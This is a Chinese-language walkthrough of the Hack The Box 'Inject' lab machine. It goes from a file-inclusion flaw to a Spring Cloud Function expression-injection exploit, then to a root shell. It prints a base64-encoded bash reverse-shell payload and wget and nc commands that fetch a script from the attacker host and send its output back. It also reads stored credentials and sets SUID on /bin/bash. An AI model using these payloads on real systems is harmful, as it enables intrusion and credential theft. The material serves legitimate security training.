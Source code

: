 ```yaml
---
typora-root-url: ./image
---
```


## Hack The Box {inject}关卡

Ip地址：

![image-20230603203105184](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203105184.png)

直接访问IP地址拒绝访问，可能是80端口没开。

kali nmap扫一下：

![image-20230603203746134](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203746134.png)

发现开了22端口和8080端口。

访问8080端口：

![image-20230603203624481](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203624481.png)

扫了一圈都是静态页面，不过右上角有个upload，可以上传文件。

![image-20230603203712469](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603203712469.png)

除了图片其他文件都过滤了，不能上传webshell或者.htaccess。但是上传图片后图片名作为Get参数传入后端，就比较有意思了。

```url
http://10.10.11.204:8080/show_image?img=shell.png
```

BP抓包，看一下有没有文件包含（LFI）。

![image-20230603204308169](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603204308169.png)

果不其然，翻一下有没有敏感信息。

除了root还有两个用户。

![image-20230603204423359](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603204423359.png)

再翻一翻，目录下文件不多的话能看就全看完吧，信息收集真的很重要。

这里有一个pom.xml

![image-20230603204712669](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603204712669.png)

解释一下pom.xml是干嘛的：

主要包含了项目的基本信息，可以看到用了项目中都用了哪些组件。

![image-20230603205202807](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603205202807.png)

看上去是web app使用了spring的框架。可以通过查找谷歌来找到可用的漏洞。

![image-20230603210020247](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603210020247.png)

国内也有一篇讲的不错的：https://www.cnblogs.com/9eek/p/16113603.html

具体的利用方式看👆文章。



通过Spring Cloud Rce 反弹shell。

本机瑞士军刀监听9999端口：

![image-20230603210523013](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603210523013.png)

构造Payload：

防止空格分割命令字符串和意想不到的命令解释方式，把payload base64编码一下：

https://bewhale.github.io/tools/encode.html

![image-20230603211406984](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603211406984.png)

```java
T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjUvOTk5OSAwPiYxJw==}|{base64,-d}|{bash,-i}")
```

写入**spring.cloud.function.routing-expression**字段，发包即可反弹shell。

![image-20230603210921634](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603210921634.png)

本地收到了反弹过来的shell:

![image-20230603211525530](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603211525530.png)

反弹过来的shell太难用而且还没法自动补全，通过python升级一下shell。



方法如下：

参考：https://www.cnblogs.com/sainet/p/15783539.html

在反向的shell有python的情况下：

```shell
which python
#or 
which python3
```

执行：

```python
python3 -c "import pty; pty.spawn('/bin/bash')"
#这段代码是在Python中使用pty模块创建一个交互式的bash终端。pty.spawn()函数会启动一个新的进程，并将其连接到一个伪终端（pseudo-terminal），然后将标准输入、标准输出和标准错误输出重定向到该伪终端。
#设置环境变量
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

ctrl+z暂停shell

```shell
stty raw -echo;fg
#键入reset
```

![image-20230603211809743](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603211809743.png)

查找输入frank的文件：

![image-20230603212220456](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603212220456.png)

通过`cat /home/frank/.m2/settings.xml`找到用户phil的密码。

![image-20230603212332261](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603212332261.png)

su切换用户到Phil，拿到第一个flag。

本机启一个python web服务器上传linpeas.sh到靶机：

```shell
#先切换到要上传文件的目录
python3 -m http.server
```

靶机shell使用weget下载文件：

```shell
wget 10.10.16.5:8000/linpeas.sh
```

![image-20230603212911397](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603212911397.png)

运行linpeas.sh 并将结果传到本地：

```shell
#本地
ncat -lvnp 8888 |tee result.txt
```

```shell
#靶机
sh linpeas.sh | nc 10.10.16.5 8888
```

本地使用`less -r result.txt`带颜色阅读结果（也可以在靶机shell上直接用这个命令看，但是太卡）。

![image-20230603214402650](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214402650.png)

在insteresting中发现playbook，并且是root权限。

![image-20230603213322666](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603213322666.png)

写xml通过python服务器和wget传到靶机。

playbook的路径为**/opt/automation/tasks**，上传到这里会自动运行

```shell
#赋予/bin/bash suid权限，
#s：即运行/bin/bash时被授予程序所有者到权限，也就是root
#u：所有用户都可以通过/bin/bash获得root权限
chomd u+s /bin/bash

```

下载完成

![image-20230603214601584](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214601584.png)

等待自动运行即可

![image-20230603214656609](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214656609.png)

![image-20230603214718220](image/:Users:fanhexuan:Library:Application%20Support:typora-user-images:image-20230603214718220.png)

提权成功，拿到system flag。